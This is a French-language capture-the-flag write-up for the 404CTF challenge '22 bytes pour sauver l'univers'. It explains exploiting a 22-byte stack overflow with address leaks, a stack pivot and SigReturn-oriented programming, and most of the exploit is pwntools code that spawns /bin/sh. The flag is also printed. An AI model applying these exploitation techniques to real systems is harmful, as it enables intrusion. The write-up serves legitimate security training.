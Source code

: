 # Writeup pour `22 bytes pour sauver l'univers`

Auteur : *Pwnsard*  
Difficulté : *Moyen*

### Notions principales :
- SigReturn Oriented Programming
- Stack Pivot

### Protections :

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   13 Symbols	  N/A	0		0		data/chall
```

### Principe

Il s'agit d'un buffer overflow de 22 bytes, avec donc une place assez limitée sur la stack pour stocker une ROPchain, et très peu de gadgets à notre disposition.  
*Le challenge a été codé en C car il a beaucoup évolué au cours du développement, mais il aurait du être écrit en assembleur. Il ne fait que des syscalls et n'utilise pas de libc.*  

```C
char boucle[4] = "\x01";
char decisions[0x14];

while (boucle[0])  {
    puts("Que comptez vous faire ?\n");
    puts(">> ");
    read(0, decisions, 0x18 + 22);
    puts("Le soleil explose !\n");
    puts("Vous revoyez vos 22 derniers bytes : ");
    puts(decisions);
    puts("\nMais pas de panique, vous êtes dans une boucle temporelle...");
    puts("\n------------------------------------------------------------------------------\n");
}
```

Avec cet overflow de 22 bytes, il est trivial d'obtenir un leak de l'adresse de la stack, puis un leak du PIE : 

```python
print("[*] Leaking phase")
payload = b"A" * 31
r.recvuntil(b">> ")
r.sendline(payload)
leak = r.recvuntil(b"Mais").split(b'\n')
stack_leak_addr = int.from_bytes(leak[2], "little")
print(f"stack leak : {hex(stack_leak_addr)}")

payload = b"A" * 39
r.recvuntil(b">> ")
r.sendline(payload)
leak = r.recvuntil(b"Mais").split(b'\n')
exe.address = int.from_bytes(leak[2], "little") - 0x443
print(f".text@{hex(exe.address)}")
```
On peut quitter la boucle en overwritant le buffer "boucle" avec des null bytes, et récupérer le flow d'exécution en utilisant le `ret` de la fonction `main`.  
Pour résoudre le coeur du challenge, ma solution est d'effectuer un stack pivot un peu serré sur le début du payload. On a ensuite la place d'appeler la fonction read et pouvoir écrire un très grand deuxième payload sur la stack :

```python
print("[*] Setup ROPchain")
rop = ROP(exe)
leave_ret_gadget = rop.find_gadget(["leave", "ret"])[0]
pop_rbp_gadget = rop.find_gadget(["pop rbp", "ret"])[0]
spoofed_stack_pointer = stack_leak_addr - 0x30
arbitrary_write_addr = stack_leak_addr - 0x20

payload = p64(stack_leak_addr - 0x10)  # This points to "spoofed_stack_pointer", allows an arbitrary read
payload += p64(exe.address + 0x377)    # This points to the read syscall inside of the program. Because rbp has been spoofed, the syscall will use the rest of the payload as arguments
payload += p64(arbitrary_write_addr)   # arbitrary_write_addr in rsi
payload += b"\x00\xff\x00\x00"         # 0xff00 in rdx (count for read)
payload += b"\x00\x00\x00\x00"         # 0 in rdi      (stdin file descriptor)

payload += p64(spoofed_stack_pointer)  # Stack pivot, this address points to the origin of the payload
payload += p64(leave_ret_gadget)[:-2]  # First executed gadget, allows for a stack pivot to the origin of the payload
r.recvuntil(b">> ")
print("[*] Getting arbitrary write")
print(payload)
print(hex(leave_ret_gadget))
r.send(payload)
```

Enfin on peut stocker une Sigreturn Frame sur la stack, puis exécuter le syscall `sigreturn` à l'aide d'un dernier syscall read de taille 0xf pour avoir la bonne valeur dans `rax`. 

```python
# Now we have an arbitrary write
syscall_address = exe.address + 0x386
read_address = exe.address + 0x381

sigreturn_frame = SigreturnFrame()
sigreturn_frame.rax = 0x3b
sigreturn_frame.rip = syscall_address
sigreturn_frame.rdi = stack_leak_addr + 0xf8 # points to /bin/sh

print("[*] Setup a sigreturn frame")
payload = b"B" * 8 + p64(read_address) + b"D" * 0x8 + p64(syscall_address) + bytes(sigreturn_frame) + b"/bin/sh\x00"
r.sendline(payload)

payload = b"C" * 0xe
r.sendline(payload)
```

### Script de résolution :

Voir `solve.py`

### Flag : 

`404CTF{14,3_M1lL1ardS_d'AnnÉe$_Plu$_7ARd...}`